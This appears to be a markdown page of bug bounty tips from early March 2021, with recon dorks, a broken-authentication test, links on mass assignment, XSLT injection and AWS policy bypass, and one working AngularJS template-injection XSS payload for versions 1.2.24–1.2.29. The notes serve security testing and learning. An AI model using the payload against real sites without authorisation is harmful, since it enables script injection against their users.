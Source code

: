 # Bug Bounty Tips - March 2021

# 📅 01-Mar-2021
## Find Contact details for any sites using this dorks
1. site:site.tld intext:"
@site
.tld"
2. site:site.tld "security" | "admin" | "contact"
3. site:site.tld security.txt
4. /hunter.io
5. check whois for registrar info

## Broken Authentication tip
1. Added user in dashboard made him admin 
2. Remove user and again add same user
**Note :**If user gets admin without promoting then its broken issue.

## Mass Assignment/Auto binding vulnerability
- https://itzone.com.vn/en/article/mass-assignment-vulnerability-and-prevention

![img](https://pbs.twimg.com/media/EvONSJtXUAIQ4Xm?format=jpg&name=small)

# 📅 02-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 60
- [XSLT Injection ](https://twitter.com/harshbothra_/status/1366413262410059777?s=20)

## AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29
```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

# 📅 03-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 61
- [Bypassing AWS Policies](https://twitter.com/harshbothra_/status/1366738335218028545?s=20)

# 📅 04-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 62
- [Source Code Review Guidelines](https://twitter.com/harshbothra_/status/1366968601324838912?s=20)
